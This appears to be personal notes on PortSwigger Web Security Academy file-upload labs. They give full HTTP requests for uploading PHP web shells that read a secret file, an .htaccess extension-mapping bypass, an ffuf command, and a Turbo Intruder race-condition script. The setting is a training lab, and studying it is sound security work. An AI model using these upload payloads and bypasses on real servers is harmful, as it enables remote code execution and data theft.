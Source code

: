 # File Upload Vulnerabilities

## Labs

### Web shell upload via extension blacklist bypass

I've managed to bypass the filter using the following request:

```http
POST /my-account/avatar HTTP/1.1
Host: acb81f8f1f4f4a46c0cc39f500b8009e.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acb81f8f1f4f4a46c0cc39f500b8009e.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=---------------------------10948141071551870154239192795
Content-Length: 543
Origin: https://acb81f8f1f4f4a46c0cc39f500b8009e.web-security-academy.net
Connection: close
Cookie: session=ezbQkyPLqeumwtiE4uhIAtfn4AWdbteP
Upgrade-Insecure-Requests: 1

-----------------------------10948141071551870154239192795
Content-Disposition: form-data; name="avatar"; filename="file.phtml"
Content-Type: application/php

<?php

echo file_get_contents("/home/carlos/secret");
?>

-----------------------------10948141071551870154239192795
Content-Disposition: form-data; name="user"

wiener
-----------------------------10948141071551870154239192795
Content-Disposition: form-data; name="csrf"

ugnxF5DmoOWX4Ma9VaBUGMWH1nwgmJ4Z
-----------------------------10948141071551870154239192795--

```

Although, this is not the intended way of completing the lab.

According to the solution provided by PortSwigger, you should upload a file named `.htaccess`, with mimetype set to `text/plain` and containing the following contents:

```text
AddType application/x-httpd-php .l33t
```

This maps the extension `.l33t` to the mimetype `application/x-httpd-php`. Similarly, I mapped the aforementioned mimetype to the extension `.rbct`:

```http
POST /my-account/avatar HTTP/1.1
Host: ac641f7a1fe12da9c01426b200c20034.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac641f7a1fe12da9c01426b200c20034.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=---------------------------1505121776641287142092914676
Content-Length: 511
Origin: https://ac641f7a1fe12da9c01426b200c20034.web-security-academy.net
Connection: close
Cookie: session=MU4mIS5SYZy6lSzRWDlkL1TRz7ba4gFF
Upgrade-Insecure-Requests: 1

-----------------------------1505121776641287142092914676
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .rbct

-----------------------------1505121776641287142092914676
Content-Disposition: form-data; name="user"

wiener
-----------------------------1505121776641287142092914676
Content-Disposition: form-data; name="csrf"

L2CXHwOeTnzjf6JXRlD6kKxqmw2sIoMv
-----------------------------1505121776641287142092914676--

```

After that I could upload a file ending with `.rbct` in order to execute PHP code.

### aa

To solve the lab I've used `ffuf`:

```bash
ffuf -u 'https://ac231fd81f7c228fc0620a7300260049.web-security-academy.net/files/avatars/image.php' \
    -or -of html -od output_dir
    -v -noninteractive -rate 10 \
    -H "X-Custom-Header-rbct: FUZZ"
    -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
```

At the same time, I sent a few requests using `Repeater`:

```http
POST /my-account/avatar HTTP/1.1
Host: ac231fd81f7c228fc0620a7300260049.web-security-academy.net
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: session=8kNOuG2xjdQQkSGhxXP4f6S83PxthX9Y
Content-Length: 443
Content-Type: multipart/form-data; boundary=9ad4459fe1d5934f0934fb92668b76e4

--9ad4459fe1d5934f0934fb92668b76e4
Content-Disposition: form-data; name="user"

wiener
--9ad4459fe1d5934f0934fb92668b76e4
Content-Disposition: form-data; name="csrf"

h5nZ4DWK8d6N6L6F66VAfvAiQyxvR7cK
--9ad4459fe1d5934f0934fb92668b76e4
Content-Disposition: form-data; name="avatar"; filename="image.php"
Content-Type: application/php

<?php
echo file_get_contents("/home/carlos/secret");
?>
--9ad4459fe1d5934f0934fb92668b76e4--

```

According to the official solution, you can use `Turbo Intruder`:

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    request1 = '''POST /my-account/avatar HTTP/1.1
Host: ac231fd81f7c228fc0620a7300260049.web-security-academy.net
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: session=8kNOuG2xjdQQkSGhxXP4f6S83PxthX9Y
Content-Length: 443
Content-Type: multipart/form-data; boundary=9ad4459fe1d5934f0934fb92668b76e4

--9ad4459fe1d5934f0934fb92668b76e4
Content-Disposition: form-data; name="user"

wiener
--9ad4459fe1d5934f0934fb92668b76e4
Content-Disposition: form-data; name="csrf"

h5nZ4DWK8d6N6L6F66VAfvAiQyxvR7cK
--9ad4459fe1d5934f0934fb92668b76e4
Content-Disposition: form-data; name="avatar"; filename="image.php"
Content-Type: application/php

<?php
echo file_get_contents("/home/carlos/secret");
?>
--9ad4459fe1d5934f0934fb92668b76e4--

'''

    request2 = '''GET /files/avatars/image.php HTTP/1.1
Host: ac231fd81f7c228fc0620a7300260049.web-security-academy.net
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Cookie: session=MuPdm2HGYmLqYLKBjM1gy9zsZqy8JcDf


'''

    engine.queue(request1, gate='race1')
    
    for x in range(5):
        engine.queue(request2, gate='race1')

    engine.openGate('race1')
    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

Although it took me a few attempts, I've managed to get a successful response.
